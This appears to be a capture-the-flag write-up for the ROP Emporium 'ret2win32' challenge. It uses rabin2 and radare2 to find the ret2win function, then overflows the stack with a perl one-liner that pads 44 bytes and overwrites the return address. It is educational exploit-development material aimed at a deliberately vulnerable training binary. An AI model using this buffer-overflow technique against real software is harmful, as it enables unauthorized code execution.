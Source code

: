 # ret2win32

You can find this challange [here](https://ropemporium.com/challenge/ret2win.html).

## Black-Box Test
Let's run the program `ret2win32` and observe the output

```
./ret2win32
```
![](./0.png)

Let's input normal data, such as `ABCD`, and observe the program's behavior.

![](./1.png)

After some trial and error, I found the exact index where we can overwrite the return address.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./ret2win32
```
![](./4.png)
```
sudo dmesg -k | tail -2
```
![](./5.png)





## Finding important details

If we examine the stack permissions, we'll find that NX protection is enabled on it, so we won't be able to execute code that is written directly on it.

```
rabin2 -I ret2win32
```
![](./2.png)

Therefore, we will look for functions that can help us.

```
rabin2 -qs ret2win32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./3.png)

The function `ret2win` looks very suspicious and matches the challenge name, so it's likely the function we're looking for. To be absolutely sure, let's take a closer look at the function itself.

```
r2 ret2win32
```
```
aa
```
```
afl
```
![](./6.png)
```
pdf @ sym.ret2win
```
![](./7.png)

Indeed, that is the function we want.

## Solution

The `ret2win` function is located at address `0x0804862c`. To overwrite the return address, we first need to fill the stack with 44 garbage characters. The address will follow immediately after them.

So, let's return to the terminal and enter the following command:

```
perl -e 'print "A"x44 . "\x2c\x86\x04\x08"' | ./ret2win32
```
![](./8.png)

And that’s it!
